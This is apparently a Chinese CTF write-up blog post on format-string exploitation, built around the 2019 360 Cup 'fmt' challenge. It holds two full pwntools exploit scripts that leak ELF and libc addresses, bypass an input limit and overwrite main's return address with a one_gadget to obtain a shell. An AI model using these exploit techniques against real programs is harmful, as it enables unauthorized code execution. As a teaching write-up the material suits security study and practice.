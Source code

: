 ```yaml
---

layout: post

title: '再探格式化漏洞'

date: '2019-10-23'

header-img: "img/home-bg.jpg"

tags:
     - pwn 格式化漏洞  
author: 'De4dCr0w'

---
```


<!-- more -->

### 前言

之前已经对格式化漏洞的原理进行了记录：

https://de4dcr0w.github.io/ISCC2017%E4%B9%8Bpwn1%E5%88%9D%E6%8E%A2%E6%A0%BC%E5%BC%8F%E5%8C%96%E6%BC%8F%E6%B4%9E.html

针对2019 360杯初赛的fmt题进行一次复习，题目文件地址：

https://github.com/De4dCr0w/ctf-pwn/blob/master/360-cup-2019/fmt

### 题目解析

题目流程较为简单，输入一个字符串，并直接用printf打印，存在格式化漏洞，并且限制输入三次。

![](../image/2019-10-23-再探格式化漏洞/1.png)

开启了全保护：

![](../image/2019-10-23-再探格式化漏洞/2.jpg)

32位程序中，printf输入的参数为fmt字符串+arg1+arg2+……，从右往左依次压入栈中。所以格式化漏洞第一步操作的都是栈中的数据，首先要找到打算泄漏或写入的地址距离fmt字符串的偏移是多少，可以通过pwngdb插件fmtarg来计算。

fmtarg 得到的是目的地址在整个字符串的索引，所以要减去1（去除fmt），例如：%order$s 对应的order为fmt字符串后面的参数的顺序。

64位程序中order要加上6，因为前6个参数是通过寄存器传递的。

调试时在printf函数下断点，查看栈的布局：

![](../image/2019-10-23-再探格式化漏洞/3.jpg)

![](../image/2019-10-23-再探格式化漏洞/4.jpg)

通常格式化漏洞利用会传入地址进行任意写，但如果字符串不保存在栈中，而是bss区或堆中时，例如本题，就需要在栈中找到像path2->path1->path0这样的利用链，path2和path1为栈中的地址，可以对path2的索引进行写入修改path0，然后对path1的索引进行写入修改path0的内容，达到任意地址写入的效果。（通常找到ebp，因为ebp保存的就是上一个栈帧的ebp地址）

一般格式化漏洞会修改got表来执行命令，但本题开启了保护，所以只能通过修改main函数的返回地址为one_gadget来get shell。

### Exp

```
from pwn import *
from LibcSearcher import LibcSearcher
import time

context.log_level = 'debug'

p = process("./pwn2")

one_gadget = 0x3ac5e

def send_data(payload):
    p.recvuntil("2. Exit")
    p.sendline("1")
    p.recvuntil("It's time to input something")
    p.sendline(payload)

def Exit():

    p.recvuntil("2. Exit")
    p.sendline("2")

if __name__=='__main__':
    
    payload =  "AA%1$x%15$x%6$x"
    send_data(payload)
    p.recvuntil("AA")
    elf_base = long(p.recv(8),16)-0x2010
    print "elf_base:",hex(elf_base) //泄漏程序基地址

    libc_main = long(p.recv(8),16)-247

    path1 = long(p.recv(8),16)
    ret_addr = path1 - 0x98 //泄露返回地址
    print 'ret_addr:',hex(ret_addr)

    libc = LibcSearcher("__libc_start_main",int(libc_main))
    main_offset = libc.dump('__libc_start_main')
    //因为题目中没有给出libc版本，所以需要泄露函数地址通过LibcSearcher查找版本

    libc_base = libc_main-main_offset
    print "libc_base:",hex(libc_base) // 泄漏libc基地址

    one_gadget = libc_base + one_gadget

    i_stack_addr = path1 - 0xc0 + 3 
    print "i_stack_addr:",hex(i_stack_addr)
    
    #gdb.attach(p)
    //修改循环的值，在高地址写入0xff,使其变成负数，绕过只能printf三次的限制
    payload = "%" + str(i_stack_addr&0xffff) + "c%6$hn"
    send_data(payload)

    payload = "%" + str(0xff) + "c%57$hhn"
    send_data(payload)

    //修改path0 为main函数返回地址，写入两个字节修改地址部分
    payload = "%" + str(ret_addr&0xffff) + "c%6$hn"
    send_data(payload) 

    payload = "%" + str(one_gadget&0xffff) + "c%57$hn"
    send_data(payload)

    //修改path0 为main函数返回地址+2的地址，写入两个字节修改高地址部分
    payload = "%" + str((ret_addr+2)&0xffff) + "c%6$hn"
    send_data(payload) 

    payload = "%" + str((one_gadget&0xffff0000)>>16) + "c%57$hn"
    send_data(payload)

    Exit() //退出循环 main函数返回，触发one_gadget
    p.interactive()

```

### Exp2

该exp比较dirty，通过改写bss上N的值来绕过次数限制，并泄露got表中printf函数的地址来泄露libc地址，而且构造bss的地址时发送数据过大，容易失败。有点舍近求远，权当练习，也贴在下面：

```
from pwn import *
from LibcSearcher import LibcSearcher
import time

#context.log_level = 'debug'

p = process("./pwn2")

one_gadget = 0x3ac5e

def send_data(payload):
    p.recvuntil("2. Exit")
    p.sendline("1")
    p.recvuntil("It's time to input something")
    p.sendline(payload)

def Exit():
    p.recvuntil("2. Exit")
    p.sendline("2")

payload1 = "A"*0x3 + "%6$x"+"%6$s" + "%1$x"
send_data(payload1)
p.recvuntil("AAA")
path1 = long(p.recv(8),16)
print "path1_addr:",hex(path1)

path0 = u32(p.recv(4))
print "path0_addr:",hex(path0)

elf_base = long(p.recv(8),16)-0x2010
print "elf_base:",hex(elf_base)

N_addr = elf_base + 0x2008
print "N_addr:",hex(N_addr) //泄漏bss 上N的地址
#------------------------------------

payload2 = "%" + str(N_addr)+"c%6$n"
send_data(payload2) // 修改path0为N的地址

payload3 = "%" + str(0xbe)+"c%57$hhn"  // 修改N的值为0xbe
p.sendline("1")
p.recvuntil("It's time to input something")
p.sendline(payload3)

#----------------------------------------

printf_got = elf_base + 0x1fd0
print "printf_got:",hex(printf_got)

payload4 = "%" + str(printf_got)+"c%6$n" //修改path0位printf got表地址
send_data(payload4)

payload5 = "A"*0x3 + "%57$s" 

p.sendline("1")
p.recvuntil("It's time to input something")
p.sendline(payload5)
p.recvuntil("AAA")
printf_addr = u32(p.recv(4)) //泄漏printf 地址
print "printf_addr:",hex(printf_addr) 

libc = LibcSearcher("printf",printf_addr) //查找libc版本

printf_offset = libc.dump('printf')

libc = printf_addr-printf_offset  //泄漏libc基址

ret_addr = path1 - 0x98
print 'ret_addr:',hex(ret_addr)
one_gadget = libc + one_gadget

payload6 = "%" + str(ret_addr&0xffff)+"c%22$hn" //该部分就和上面的exp一样了
send_data(payload6)

payload = "%" + str(one_gadget&0xffff)+"c%59$hn" 
send_data(payload)

payload6 = "%" + str((ret_addr+2)&0xffff)+"c%22$hn"
send_data(payload6)

payload = "%" + str((one_gadget&0xffff0000)>>16)+"c%59$hn" 
send_data(payload)

Exit()

p.interactive()

```

### 参考链接

https://wiki.x10sec.org/pwn/fmtstr/fmtstr_example/

https://github.com/lieanu/LibcSearcher
